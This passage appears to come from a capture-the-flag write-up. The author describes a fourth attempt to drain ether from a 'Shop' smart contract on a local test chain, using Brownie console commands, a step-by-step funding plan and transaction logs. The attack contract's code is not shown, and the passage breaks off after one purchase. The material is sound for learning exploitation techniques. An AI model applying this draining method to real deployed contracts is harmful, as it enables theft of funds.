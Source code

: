 I did not know how to use web3 py and remix was my only solution at the time, so I just forfeited and went to bed :(


## 4th and final attempt

it was 7:30 AM when i (lufimio) woke up, i immediately got onto the computer to check for any progress and there was progress but i didn't understand any of it, so i had to continue where i left off yesterday

### local
Luckily i had an idea when i was sleeping, maybe it was because the shop contract didn't have any money!
so i checked the console again and ran the following command
```
>>> accounts[0].deploy(Shop, amount=Wei('90 ether'))
  OMMITTED FOR CLARITY
BadResponseFormat: The response was in an unexpected format and unable to be parsed. Response cannot include both "error" and "result". The raw response is: OMMITED FOR CLARITY 'error': {'message': 'VM Exception while processing transaction: revert', OMMITED FOR CLARITY}
```
it didnt work and i had no idea why, but i had one more idea
this would be a bit more convoluted though
 - i would buy 3 of item 2
 - this would cost `69 ether` so the shop contract would have 69 ether
 - i would then buy 1 item 0 for `5 ether`
 - the shop would then have `74 ether` i would have `26 ether` and the attack contract would have none
 - if the attacking script worked the shop would have `4 ether` (as a remainder), i would have `26` and the attack contract would have `70 ether`
 - the shop would also record 3 of item 2 as being in our inventory so if we ran refund on those items it would fail on the fact that the shop contract didn't have enough money, not any of the requires

now i had to put it into execution
first i set up the contracts
```
>>> shop = accounts[0].deploy(Shop)
Transaction sent: 0x42a87cd2e7d0291ec1460bbbeca82a5dfea848f18daf2fb0e928a8503f578aec
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 0
  Shop.constructor confirmed   Block: 1   Gas used: 376955 (3.14%)
  Shop deployed at: 0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87

>>> attack = accounts[0].deploy(attack, "0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87")
Transaction sent: 0xa0598f3098f3870b9ac60f024f195fb8496ebc55632b84eacc84be59224e77ee
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 1
  attack.constructor confirmed   Block: 2   Gas used: 217352 (1.81%)
  attack deployed at: 0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6
```

then i bought 3 of item 2
```
>>> shop.buy(2, 3, {'from': accounts[0], 'value': Wei("69 ether")})
Transaction sent: 0x320e265ce85386c3f9c655c0932d8087406193fb74829e0d701f80a2e4bba4bc
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 2
  Shop.buy confirmed   Block: 3   Gas used: 42502 (0.35%)

<Transaction '0x320e265ce85386c3f9c655c0932d8087406193fb74829e0d701f80a2e4bba4bc'>
```
